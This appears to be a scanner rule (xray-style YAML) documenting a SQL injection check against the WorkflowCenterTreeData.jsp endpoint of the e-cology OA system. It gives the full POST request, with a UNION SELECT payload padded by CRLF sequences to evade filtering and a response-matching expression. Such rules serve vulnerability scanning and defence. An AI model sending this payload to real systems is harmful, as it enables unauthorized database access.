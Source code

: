 
# 0x09 ecology-workflowcentertreedata-sqli

- **配置整理**：

    > ## set:  
    >   r1: randomInt(4000, 9999)  
    >   r2: randomInt(800, 1000)  
    > ## rules:  
    >    - **method: `POST`**  
    >       ```sql
    >         path: /mobile/browser/WorkflowCenterTreeData.jsp
    >         headers:
    >           Content-Type: application/x-www-form-urlencoded
    >         body: >-
    >           node=wftype_1132232323231&scope=23332323
    >               &formids=1111111111111%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a)))  # 360个%0a%0d
    >                   union+select+1024,({{r1}}*{{r2}})+order+by+(((1
    >         follow_redirects: true
    >         expression: |
    >           response.status == 200 && response.body.bcontains(bytes(string(r1 * r2)))
    >       ```
    >
    > ## detail:  
    >   author: JingLing(https://hackfun.org/)  
    >   links:  